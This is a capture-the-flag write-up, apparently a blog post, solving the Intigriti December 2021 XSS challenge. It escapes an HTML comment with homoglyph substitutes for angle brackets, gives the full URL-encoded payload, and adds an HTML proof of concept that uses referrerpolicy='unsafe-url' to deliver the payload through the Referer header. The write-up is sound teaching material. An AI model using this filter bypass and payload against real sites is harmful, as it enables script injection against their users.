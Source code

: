 ```yaml
---
title:      Intigriti - XSS Challenge 1221
author:     Bruno Halltari
date:       2021-12-27 16:09:00
summary:    Homoglyph XSS
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```


## Let's start
The challenge comes with an input field and a parameter called " Stay open " to avoid repeating an animation, first of all I tried to insert a simple payload like <script>alert(document.domain)</script> to understand where the starting point was.
```html

<h4 id="punchline">Result:  alert(document.domain) 
 <!-- Referer: https://challenge-1221.intigriti.io/challenge/index.php?payload= &gt;script&lt;alert(document.domain)&gt;/script&lt;&open=on -->
</h4>

```

From the soruce, you can see two pieces of information, first of all the content is reflected inside an html comment.
This is really important because with a simple payload like ``` --><script>alert(document.domain)</script>``` we can escape from the comment and execute our xss payload, 
but there is a problem, as you can see from the screen  the characters ```<``` and ```>``` are encoded.

At this point I tried to think of various bypasses until I came up with an idea based on a previously played ctf.

## Homoglyph characters
Homoglyph are character that look alike but are not the same, so it's possible to use characters that looks the same but are interpreted 
differently from the server.
this is really important because we can use this type of characters to bypass the control on ```<``` and ```>```

Here you can find some examples: https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt


## Final Payload

To build the final payload I simply used Homoglyph characters regarding the ```<``` and the ```>```, in this way I was able to close the html comment and escape in order to execute XSS.

```https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5```

To be sure, I url encoded the whole payload.

https://challenge-1221.intigriti.io/challenge/index.php?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5

Just to be clear, clicking the link will not execute the xss, but you will need to enter ``` --﹥﹤script﹥alert(document.domain)﹤/script﹥  ``` inside the input field ( we will see after how to not make this case a self-xss )

```html
<h4 id="punchline">Result: xss
<!-- Referer: https://painreigns.github.io/xmasxss.html?payload=--><script>alert(document.domain)</script>
"-->"
</h4>

```


As you can see, I was able to get out of the Html comment, and execute my payload.


## Final Poc

Now that we know how to execute the xss it's not over, in fact the scenario described is that of a Self-XSS, which is no good.
To avoid this problem, I wrote this simple POC:

```html

<html>
  <body>
    <a href="https://challenge-1221.intigriti.io/challenge/index.php?payload=xss" referrerpolicy="unsafe-url">Click here </a>
  </body>
</html>


```

The only interesting part is the ```referrerpolicy="unsafe-url"``` parameter that is needed to send the origin, path, and query string when performing any request, regardless of security.
This means that this policy will leak potentially-private information (in this case our payload) from HTTPS resource URLs to insecure origins, without this parameter it would not be possible to populate the referrer header from an external origin and execute XSS.


The last step is to host our code and insert the payload described above in the url:

https://mydomain/xmasxss.html?payload=--%EF%B9%A5%EF%B9%A4script%EF%B9%A5alert(document.domain)%EF%B9%A4/script%EF%B9%A5

